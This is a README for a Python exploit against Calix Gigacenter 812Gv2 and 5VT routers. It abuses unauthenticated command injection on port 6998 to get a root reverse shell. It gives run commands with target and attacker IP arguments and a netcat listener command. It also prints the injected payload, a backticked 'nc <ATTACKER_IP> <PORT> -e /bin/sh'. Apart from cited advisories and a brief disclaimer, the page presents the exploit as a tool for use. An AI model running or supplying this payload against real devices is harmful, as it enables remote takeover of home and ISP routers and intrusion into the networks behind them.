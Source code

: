 
# 📡 Calix Gigacenter Pre-Auth RCE Exploit (Port 6998)

This Python-based exploit targets Calix Gigacenter devices (812Gv2 / 5VT Series), leveraging a **pre-authenticated remote code execution (RCE)** vulnerability exposed via TCP **port 6998** which cwmp component is listening on. Successful exploitation leads to a reverse shell.

## 🔍 Vulnerability Details

The CLI exposed on port 6998 accepts unauthenticated input, which is improperly sanitized. By injecting a command wrapped in backticks (`` `command` ``), an attacker can achieve arbitrary command execution on the target device.

- The vulnerability affects **Calix Gigacenter 812Gv2** and **5VT Series**.
- The flaw allows execution of commands as root, without credentials.
- Reference:  
  - [SSD Disclosure Advisory](https://ssd-disclosure.com/ssd-advisory-calix-pre-auth-rce/)  
  - [CyberPress Article](https://cyberpress.org/calix-pre-auth-rce-port-6998/)

## 🚀 Exploit Features

- Written in Python using `pwntools`.
- Spawns a reverse shell automatically via netcat.
- Uses a threaded listener to catch the shell.
- Logging included (via `logging` module) instead of `print()`.

## 🧠 Requirements

- Python 3.x
- [`pwntools`](https://docs.pwntools.com/en/stable/)
  ```bash
  pip install pwntools
  ```

## ⚙️ Usage

```bash
python3 Gigacenter.py <TARGET_IP> <ATTACKER_IP> <ATTACKER_PORT>
```

### Example:

```bash
python3 Gigacenter.py 192.168.1.1 192.168.1.100 4444
```

Make sure to have `nc -lvnp 4444` running or let the script handle the listener itself.

## 💀 Exploit Flow

1. Connects to the target on port 6998.
2. Spawns a thread that listens for reverse shell connection.
3. Sends the RCE payload:  
   ```
   `nc <ATTACKER_IP> <PORT> -e /bin/sh`
   ```
4. Interacts with the received shell.

## ⚠️ Legal Disclaimer

This code is provided for **educational and research purposes only**. Unauthorized access to systems is illegal and unethical. The author is not responsible for any misuse.

---
